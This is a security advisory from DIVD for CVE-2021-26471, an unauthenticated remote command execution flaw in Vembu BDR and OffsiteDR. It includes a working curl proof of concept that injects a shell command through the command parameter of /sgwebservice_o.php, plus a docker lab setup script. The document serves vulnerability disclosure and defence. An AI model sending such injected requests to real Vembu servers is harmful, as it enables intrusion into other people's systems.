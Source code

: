 ```yaml
---
layout: cve
cve: CVE-2021-26471
title: Unauthenticated remote command execution in Vembu products
discovered_by:
  - Wietse Boonstra
author: Frank Breedijk
researchers:
  - Wietse Boonstra
  - Frank Breedijk
case: DIVD-2020-00011
redirect_from:
  - /CVE-2021-26471/
products:
  - VembuBDR
  - VembuOffsiteDR
  - Other products in this family may also be effected
versions:
  - VembuBDR v4.2.0.1
  - VembuBDR v4.2.0
  - VembuBDR v4.1.0
  - VembuBDR v4.0.2
  - VembuBDR v4.0.1
  - VembuBDR v4.0.0
  - VembuBDR v3.9.1 Update1
  - VembuBDR v3.9.0 Update1
  - VembuBDR v3.9.0
  - VembuBDR v3.8.0
  - VembuBDR v3.7.0
  - VembuBDR v3.5.0.0
  - VembuOffsiteDR v4.2.0.1
  - VembuOffsiteDR v4.2.0
  - Other products and versions of products in this family may also be effected
cvss:
  score: 9.8
  url: https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
---
```

## Summary

The http API located at /sgwebservice_o.php accepts a command argument. Using this command argument an unauthenticated attacker can execute arbitrary shell commands

## How to reproduce
Step 1:Start up a docker environment (see below)

Step 2: In a different terminal run the following command:
```bash
> $ curl 'http://127.0.0.1:6060/sgwebservice_o.php?Action=StoreSpecialFolder&command=echo%20hacked%20%3E%2Ftmp%2Fdivd_was_here.txt&tempFile=/tmp'
 
<storegrid><saved messsage='Files filtered and cached successfully.Now You can continue your schedule..' error='0'></saved></storegrid>$
```

Step 3: validate that a file was written in /tmp:
```bash

$ docker exec VembuBDR4201 /bin/bash -c "ls -l /tmp;echo ---;cat /tmp/divd_was_here.txt;echo ---"
total 16
-rw-r--r-- 1 www-data www-data    7 Feb 11 15:00 divd_was_here.txt
drwxr-xr-x 1 root     root     4096 Feb 11 14:52 hsperfdata_root
drwxr-xr-x 1 root     root     4096 Feb 11 14:52 vmware
drwx------ 2 root     root     4096 Jun 12  2020 vmware-root
---
hacked
---
$
```


## Impact
This vulnerability allows an attacker to execute an arbitrary (windows/linux) shell command in the context of the httpd process.


## About the docker test environment.
In order to set up the docker test environment, we used the following script:
```bash
#!/bin/bash
 
# Network
if [[ $(docker network ls |grep vembu-netowrk |wc -l ) -lt 1 ]]; then
  docker network create --subnet=172.18.0.0/16 vembu-network
fi
 
# Start Database container
mkdir DB
while [[ $(docker ps -a |grep VembuDatabase|wc -l) -ge 1 ]]; do
  docker kill VembuDatabase
  docker rm VembuDatabase
  sleep 1
done
docker run --name VembuDatabase --network vembu-network --ip 172.18.0.2 -p 5432:5432 -d -e POSTGRES_PASSWORD=admin -e POSTGRES_USER=postgres -e POSTGRES_DB=SGDatabase -v  $PWD/DB:/vembu vembubdr/bdr-latest:psql-latest
 
# Wait for database port to open
echo -c "Waiting for database to become available..."
while ! timeout 1 bash -c "echo > /dev/tcp/localhost/5432" ; do 
  echo -c "."
  sleep 1; 
done
echo
 
# Start APP container
mkdir APP
while [[ $(docker ps -a |grep VembuBDR4201|wc -l) -ge 1 ]]; do
  docker kill VembuBDR4201
  docker rm VembuBDR4201
  sleep 1
done
 
docker run --name VembuBDR4201 --network vembu-network --ip 172.18.0.3 --add-host VembuDatabase:172.18.0.2 --privileged=true -i -t -d --device /dev/fuse --privileged -p 6060:6060 -p 32004:32004 -v $PWD/APP:/vembu vembubdr/bdr-latest:vembubdr-4201-u1
 
# Wait for app port to open
echo -c "Waiting for application to become available..."
while ! timeout 1 bash -c "echo > /dev/tcp/localhost/6060" ; do 
  echo -c "."
  sleep 1; 
done
echo 
```